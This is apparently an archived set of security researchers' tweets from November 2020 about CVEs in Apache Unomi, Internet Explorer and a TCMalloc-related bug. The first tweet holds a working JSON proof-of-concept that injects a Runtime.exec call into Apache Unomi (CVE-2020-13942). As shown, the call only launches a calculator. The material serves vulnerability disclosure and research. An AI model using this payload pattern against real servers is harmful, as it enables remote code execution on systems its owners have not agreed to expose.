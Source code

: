 # pyn3rd
**https://twitter.com/pyn3rd/status/1328920545442680837 _at 2020-11-18 04:38:42_**
<blockquote>
#CVE-2020-13942 Apache Unomi Remote Code Execution

PoC:
{"filters":[{"id" : "pyn3rd","filters": [{"condition": {"parameterValues": {"pyn3rd": "script::Runtime.getRuntime().exec('open -a Calculator')"},"type":"profilePropertyCondition"}}]}],"sessionId": "pyn3rd"} https://t.co/Gcw5FcZiNp
</blockquote>


<table><tr>
<td><img src="pictures/http+++pbs.twimg.com+tweet_video_thumb+EnFGKA6UcAAMIhY.jpg" alt="http://pbs.twimg.com/tweet_video_thumb/EnFGKA6UcAAMIhY.jpg"></td>
</table></tr>
<table><tr>
<td>Quotes: <code>7</code></td>
<td>Replies: <code>14</code></td>
<td>Retweets: <code>167</code></td>
<td>Favorites: <code>478</code></td>
</tr></table>

---

# iamelli0t
**https://twitter.com/iamelli0t/status/1328890412413534209 _at 2020-11-18 02:38:58_**
<blockquote>
When analyzing CVE-2020-1380, I found another path to trigger a similar UAF vulnerability by neutering ArrayBuffer without JIT. 
It has beed fixed in Microsoft November’s Patch as CVE-2020-17053.
https://t.co/ucHH2cmYVN
</blockquote>

* https://www.trendmicro.com/en_us/research/20/k/cve-2020-17053-use-after-free-ie-vulnerability.html

<table><tr>
<td>Quotes: <code>2</code></td>
<td>Replies: <code>2</code></td>
<td>Retweets: <code>48</code></td>
<td>Favorites: <code>135</code></td>
</tr></table>

---

# marcinguy
**https://twitter.com/marcinguy/status/1328819769869553677 _at 2020-11-17 21:58:16_**
<blockquote>
Some more updates. I guess we need to exploit TCMalloc somehow to get RCE. WIll look when I have time and want to play with this damn CVE :) https://t.co/HgVdsJPNT1 #cve-2020-15999
</blockquote>
